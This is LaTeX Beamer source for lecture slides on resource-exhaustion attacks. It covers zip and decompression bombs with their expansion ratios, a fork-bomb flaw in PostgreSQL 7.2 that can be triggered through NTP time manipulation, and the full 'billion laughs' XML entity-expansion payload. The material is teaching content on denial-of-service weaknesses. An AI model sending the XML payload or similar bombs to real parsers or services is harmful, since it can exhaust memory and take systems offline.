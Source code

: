 \documentclass{beamer}
\begin{document}
\begin{frame}{ZIP}
  \begin{itemize}
  \item Infinite recursive zip: e.g. r.zip
  \item Bombs (e.g. non recursive files)    
    \begin{itemize}
      \item gzip: 100 GB, 97 MB compressed, 1000:1 ration
      \item bzip2: 100 GB, 69 KB, $1.6*10^6$:1
      \item PNG image: 19000 x 19000, 1-bit (45 MB) expand in 24-bit
        color to 1 GB, 44 KB compressed, 1000:1
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}[fragile]{XML}
  \footnotesize \begin{verbatim}
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
  \end{verbatim}
  \begin{itemize}
    \item 1 KB file
    \item 3GB XML (DOM worst)
  \end{itemize}
\end{frame}

\begin{frame}{Fork Bomb}
  \begin{itemize}
  \item PostgreSQL 7.2
  \item Uses elapsed milliseconds to compute number of thread to spawn
  \item No limit check
  \item<2-> What happen if you advance the date of one year?
  \item<3-> Network Time Protocol attack
 \end{itemize}
\end{frame}
\end{document}
